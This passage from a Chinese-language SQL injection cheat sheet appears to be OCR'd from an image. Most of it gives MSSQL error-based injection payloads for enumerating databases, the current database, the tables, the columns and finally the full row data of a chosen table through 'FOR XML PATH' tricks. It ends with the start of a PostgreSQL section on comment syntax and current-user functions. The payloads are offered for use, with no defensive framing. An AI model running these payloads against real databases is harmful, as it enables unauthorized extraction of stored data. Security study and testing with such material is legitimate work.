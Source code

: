 1、and 1=(select  quotename(count(name)) from master..sysdatabases)#

2、and 1=(select cast(count(name) as varchar) + char(1) from master..sysdatabases)#

3、and 1=(select str(count(name))+'|' from master..sysdatabases where dbid>5)#

​		and 1=(select cast(count(name)as varchar)+from master..sysdatabases where dbid>5)#

dbid从1-4的数据库一般为系统数据库

### 4、获取数据库

and 1=(select quotename(name) from master..sysdatabases FOR XML PATH(''))#

and 1=(select '|'+name+'|' from master..sysdatabases FOR XML PATH(''))#

### 5、获取当前数据库

and db_name()>0

and 1=(select db_name())#

### 6、获取当前数据库中的表（可一次爆出数据库所有表（只限于mssql2005及以上版本）

and 1=(select quotename(name) from 数据库名..sysobjects where xtype='U' FOR XML PATH(''))#

and 1=(select '|'+name+'|' from 数据库名..sysobjects where xtype='U' FOR XML PATH(''))#

### 7、获取表里所有的列（一次性爆指定表的所有列，只限于mssql2005及以上版本）

and 1=(select quotename(name) from 数据库名..syscolumns where id=(select id from 数据库名..sysobjects where name='指定表名') FOR XML PATH(''))#

and 1=(select '|'+name+'|' from 数据库名..syscolumns where id =(select id from 数据库名..sysobjects where name='指定表名') FOR XML PATH(''))#

### 8、获取指定数据库中的表的列的数据库

逐条爆指定表的所有字段的数据（mssql2005及以上版本）

and 1=(select top 1 * from 指定数据库..指定表名 where 条件 FOR XML PATH(''))#

一次爆n条所有字段的数据（mssql2005及以上版本）

and 1=(select top n* from 指定数据库..指定表名 FOR XML PATH(''))#

## PostgreSQL

### 概念

关系型数据库，注释符与mysql相同为 --+，同时可以使用 '1'='1闭合语句

||为连接符

当前数据库 current_database()

当前执行环境中的用户名 current_user

